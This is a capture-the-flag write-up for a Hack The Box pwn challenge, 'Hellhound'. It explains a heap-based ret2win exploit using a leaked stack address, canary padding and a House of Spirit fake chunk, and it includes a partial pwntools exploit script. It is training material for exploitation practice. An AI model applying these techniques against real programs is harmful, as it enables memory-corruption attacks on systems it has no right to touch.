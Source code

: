 # Hellhound
## DESCRIPTION:
In one of Bonnie's first missions, a helpless dog was injured by the laser guns during the fierce fight and was unable to move and escape the war scene. Bonnie took the dog and fled the battle, but not much he could do to help the poor dog. Some of the crew's doctors and engineers, made some mutations and added artificial parts to the dog, making it a living war machine under Bonnie's control. After the last fight, something hit the manufactured parts, making them malfunction and driving the dog berserk. Can you fix them and make the dog loyal under Bonnie's control again?
## HINT:
- NONE
## STEPS:
1. In this challenge we're given a 64 bit binary, dynamically linked, and not stripped.

```console
┌──(brandy㉿bread-yolk)-[~/Downloads/pwn_hellhound/challenge]
└─$ file hellhound  
hellhound: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./.glibc/ld-2.23.so, for GNU/Linux 3.2.0, BuildID[sha1]=150e0a0bd68156d605190263a4e3172efdd89f8d, not stripped
```

> BINARY PROTECTIONS

```
┌──(brandy㉿bread-yolk)-[~/Downloads/pwn_hellhound/challenge]
└─$ pwn checksec hellhound
[*] '/home/brandy/Downloads/pwn_hellhound/challenge/hellhound'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'./.glibc/'
```

2. After decompiled the binary, we know the pwn concept here is `heap + ret2win`.
3. We need to return to the `berserk_mode_off()` to get the flag.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/837cfbd1-7a56-4833-86e7-1818c1462500)


4. Although there's no potential overflow, we still can do ret2win here.

### FLOW

First we need to grab the leaked stack address at option 1, then we add it with our padding. 

> Padding is calculated from

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1c3c714c-515a-446a-b17d-0b8457fd14eb)


```
choice (8 bytes) + canary (8 bytes) + input (64 bytes).
```

```
Why do we need canary?? No need to explain this in detail I guess, already learned heap,
I'm guessing you already familiar with canary.
So our return address is consist of --> leaked stack address + padding.
```

Why do we need to add 8 bytes?? It's for padding. Notice if we use option 3, 8 bytes shall moved, hence we need another padding for that.

So what we want to send in 2nd option is:

```
another_padding (8 bytes) + return_address (leaked stack address + padding).
```

Then go to the 3rd option to move 8 bytes.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/4fb585bd-92b1-49cf-a957-a9d963db5111)


Hence it shall prompted a menu again to us (returned to the stack).

5. Here's the script so far:

> TEMP SCRIPT

```py
from pwn import *
import os 
os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

exe = './hellhound'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'DEBUG'

sh = start()
sh.sendlineafter(b'>', b'1')
sh.recvuntil(b': [')
get = sh.recvline().strip()
leaked = get[:15]
leaked = int(leaked)
log.success(f'LEAKED STACK ADDRESS --> {hex(leaked)}')

rip = 80 # 64 (malloc) + canary + choice
ret_addr = leaked + rip
log.info(f'RET ADDRESS --> {hex(ret_addr)}')

sh.sendlineafter(b'>', b'2')
# payload so we got back
p = flat([
    asm('nop') * 8, 
    ret_addr
])
sh.sendlineafter(b':', p)
sh.sendlineafter(b'>', b'3') # moves chunk pointer 8 bytes, now chunk points to return address.

sh.interactive()
```

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/4c4fc836-0607-4e60-85f6-4824987af3d0)


#### NOTES:

```
We got one more problem, after freeing our input using option 69, it returned to 0, with this the program shall terminated.
We don't want that, we can use fake chunk.

The fake chunk can only be 0 (NULL) or the actual chunk. Hence the heap concept here is House of Spirit + heap_ret2win.
```

6. Great! Now the last payload we need to send is the berserk_mode_off() address + fake chunk.


